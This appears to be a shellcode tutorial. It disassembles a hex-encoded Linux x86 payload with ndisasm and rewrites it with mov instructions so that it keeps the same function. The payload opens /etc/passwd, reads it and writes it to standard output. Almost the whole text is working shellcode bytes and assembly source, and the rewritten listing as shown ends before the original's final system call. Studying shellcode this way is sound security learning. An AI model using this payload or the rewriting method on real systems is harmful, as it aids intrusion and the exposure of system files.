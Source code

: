 Using ndisasm to view the assembly code:

```
Command-Line 
==> echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -

00000000 31C9             xor ecx,ecx
00000002 F7E1             mul ecx
00000004 B005             mov al,0x5
00000006 51               push ecx
00000007 6873737764       push dword 0x64777373
0000000C 68632F7061       push dword 0x61702f63
00000011 682F2F6574       push dword 0x74652f2f   ;/etc/passwd
00000016 89E3             mov ebx,esp
00000018 CD80             int 0x80
0000001A 93               xchg eax,ebx
0000001B 91               xchg eax,ecx
0000001C B003             mov al,0x3
0000001E 31D2             xor edx,edx
00000020 66BAFF0F         mov dx,0xfff
00000024 42               inc edx
00000025 CD80             int 0x80
00000027 92               xchg eax,edx
00000028 31C0             xor eax,eax
0000002A B004             mov al,0x4
0000002C B301             mov bl,0x1
0000002E CD80             int 0x80
00000030 93               xchg eax,ebx
00000031 CD80             int 0x80
```

#### Modified code:

Lets modify the original code using MOV instruction and also make sure that it has same functionality:

```
global _start

section .text
 _start:
	sub ecx,ecx
	mul ecx
	mov al,0x5
	push ecx
	mov dword [esp-4], 0x64777373
	mov dword [esp-8], 0x61702f63
	mov dword [esp-12], 0x74652f2f  ;/etc/passwd
	sub esp, 12
	mov ebx,esp
	int 0x80
	xchg eax,ebx
	xchg eax,ecx
	mov al,0x3
	cdq
	mov dx,0xfff
	inc edx
	int 0x80
	xchg eax,edx
	xor eax,eax
	mov al,0x4
	mov bl,0x1
	int 0x80
	xchg eax,ebx
```